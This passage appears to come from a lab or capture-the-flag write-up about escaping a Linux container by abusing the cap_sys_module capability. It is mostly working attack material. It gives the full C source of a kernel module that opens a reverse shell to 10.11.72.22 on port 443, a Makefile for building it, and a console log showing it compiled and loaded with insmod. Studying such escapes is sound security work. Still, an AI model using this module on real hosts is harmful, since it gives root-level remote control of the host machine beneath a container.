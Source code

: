 The `cap_sys_module` allows us to load kernel modules, and since containers share the host's kernel, we can use this to gain a shell on the host.

First, we create our malicious kernel module to run a reverse shell payload, as follows:

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>

MODULE_LICENSE("GPL");

static int shell(void){
	char *argv[] ={"/bin/bash", "-c", "bash -i >& /dev/tcp/10.11.72.22/443 0>&1", NULL};
	static char *env[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
}

static int init_mod(void){
	return shell();
}

static void exit_mod(void){
	return;
}

module_init(init_mod);
module_exit(exit_mod);
```
{: file="shell.c" }

We create the `Makefile` for it.

```make
obj-m +=shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
{: file="Makefile" }

Now, using `make` to compile the module and loading the compiled module.

```console
root@a8fc621bec0b:~# make
make -C /lib/modules/6.8.0-1018-aws/build M=/root modules
make[1]: Entering directory '/usr/src/linux-headers-6.8.0-1018-aws'
warning: the compiler differs from the one used to build the kernel
  The kernel was built by: x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  You are using:           gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  CC [M]  /root/shell.o
  MODPOST /root/Module.symvers
  CC [M]  /root/shell.mod.o
  LD [M]  /root/shell.ko
  BTF [M] /root/shell.ko
Skipping BTF generation for /root/shell.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-1018-aws'

root@a8fc621bec0b:~# insmod shell.ko
```
